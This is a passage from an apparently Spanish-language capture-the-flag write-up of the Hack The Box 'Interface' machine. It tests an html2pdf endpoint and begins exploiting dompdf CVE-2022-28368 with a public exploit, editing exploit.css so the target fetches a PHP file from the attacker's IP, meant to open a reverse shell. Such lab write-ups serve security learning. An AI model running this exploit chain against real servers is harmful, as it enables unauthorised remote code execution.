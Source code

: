 Para ver si funciona podemos usar otra vez la herramienta `curl` para ver la respuesta y nos reporta un **export.pdf** 

```bash
❯ curl -s -X POST -i http://prd.m.rendering-api.interface.htb/api/html2pdf -H "Content-Type: application/json" -d '{"html":"test"}'
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Fri, 12 May 2023 00:23:06 GMT
Content-Type: application/pdf
Content-Length: 0
Connection: keep-alive
X-Local-Cache: miss
Cache-Control: public
Content-Transfer-Encoding: Binary
Content-Disposition: attachment; filename=export.pdf
```

## CVE-2022-28368 

 Si investigamos vemos que `dompdf` hay una vulnerabilidad de un `RCE` <https://security-tracker.debian.org/tracker/CVE-2022-28368> 

<https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf> 

Para explotar esta vulnerabilidad podemos usar el siguiente repositorio donde nos explican como funciona la vulnerabilidad de igual manera <https://github.com/positive-security/dompdf-rce>

```bash
❯ git clone https://github.com/positive-security/dompdf-rce.git
Clonando en 'dompdf-rce'...
remote: Enumerating objects: 343, done.
remote: Counting objects: 100% (343/343), done.
remote: Compressing objects: 100% (271/271), done.
remote: Total 343 (delta 67), reused 329 (delta 62), pack-reused 0
Recibiendo objetos: 100% (343/343), 3.99 MiB | 5.51 MiB/s, listo.
Resolviendo deltas: 100% (67/67), listo.
```

Ahora lo que tenemos que hacer es editar el archivo `exploit.css` indicando nuestra `ip` de atacante

```bash
❯ catn exploit.css
@font-face {
    font-family:'exploitfont';
    src:url('http://10.10.14.115/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Vemos que vamos a estar ofreciendo el archivo **exploit_font.php** ya que al hacer una peticion a ese archivo se va a ejecutar una accion y esa accion sera una reverse shell 

<https://positive.security/blog/dompdf-rce>
